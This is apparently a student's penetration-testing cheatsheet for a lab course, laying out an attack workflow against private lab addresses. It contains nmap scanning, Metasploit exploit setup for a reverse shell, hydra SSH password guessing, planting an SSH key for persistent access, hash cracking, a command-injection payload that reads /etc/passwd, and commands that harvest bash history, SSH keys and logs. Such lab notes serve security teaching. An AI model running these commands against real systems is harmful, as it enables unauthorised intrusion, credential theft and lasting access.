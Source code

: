 # PB177 Cheatsheet

## [Labs](./labs/README.md)

## Useful websites
- vulnerability search
	- https://www.google.com/
	- https://nvd.nist.gov/vuln/search
- hash type identifier
	- https://hashes.com/en/tools/hash_identifier

## Strategy & Commands

- [Scanning network](#scanning-network)
- [Searching vulnerabilities](#searching-vulnerabilities)
- [Exploiting vulnerability](#exploiting-vulnerability)
- [Password guessing](#password-guessing)
- [Password cracking](#password-cracking)
- [Command injection](#command-injection)
- [Lateral movement](#lateral-movement)
- [What to always check](#what-to-always-check)

### Scanning network

1. scan network for hosts
```sh
nmap -T5 10.0.33.0/24
```

2. scan host for open ports, application versions, operating system, vulnerabilities
```sh
nmap -T5 -p- -sS -sV -O -Pn 10.0.33.50
```

3. scan port for vulnerabilities (extremely slow - can skip)
```sh
nmap -p 443 --script=vuln -Pn 10.0.66.201
```

4. resolve hostnames
```sh
host 10.0.33.50
```

5. get info about company from certificates
```sh
nmap --script ssl-cert 10.0.66.201 
```

6. scan publicly accessible directories at web servers
```sh
dirb https://10.0.66.201

nmap --script=http-enum 10.0.66.201
```

7. check if host is online
```
ping -c 1 10.0.0.254 && echo "Host is ONLINE" || echo "Host is OFFLINE"
```

### Searching vulnerabilities

1. run linpeas
```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
podman cp linpeas.sh attacker:~/linpeas.sh
```

2. search anything sus with google

### Exploiting vulnerability

1. search metasploit for exploit
```sh
search webmin
info 0
```

2. test out exploit
```sh
use 0
set RHOST 10.0.33.80
set LHOST eth0 # for reverse shell
set RPORT 10000
show options
check
```

### Password guessing

1. create a wordlist with AI (should be a small file)
```sh
# might need to convert to ascii
cat wordlist.txt | iconv -f utf-8 -t ascii//TRANSLIT > output.txt
file output.txt
```

2. run hydra (should give result right away !!!)
```sh
hydra -l username -P wordlist.txt ssh://10.0.88.2
```

3. connect through ssh and add ssh pub key
```sh
ssh test@10.0.33.110
mkdir -p ~/.ssh
ssh-keygen -t ed25519 -C "email@example.com"
scp .ssh/id_ed25519.pub test@10.0.33.110:~/.ssh/authorized_keys
```

### Password cracking

1. save hash in file

2. get hash type from google search

3. crack with john
```sh
john --format=Raw-MD5 passwords.txt
```

### Command injection

1. find out the request format

2. forge command injection
```sh
curl -s http://10.0.0.10:80/vulnerabilities/exec/ -X POST --data-raw 'ip=10.0.0.254;cat /etc/passwd&Submit=Submit' | lynx -nolist -dump -stdin
```

### Lateral movement

1. check for more hosts on the system

2. connect to them

3. collect info as you go

### What to always check

- run Linpeas

- DNS configuration
```sh
cat /etc/resolv.conf
```

- message of the day
```sh
cat /run/motd.dynamic
cat /var/run/motd.dynamic
```

- bash history
```sh
cat ~/.bash_history
```

- ssh directory
```
ls ~/.ssh
```

- other users
```sh
cat /etc/passwd
```

- files
```sh
find / -name "*.docx"
```

- logs
```sh
cat /var/log/auth.log
cat /var/log/syslog
```
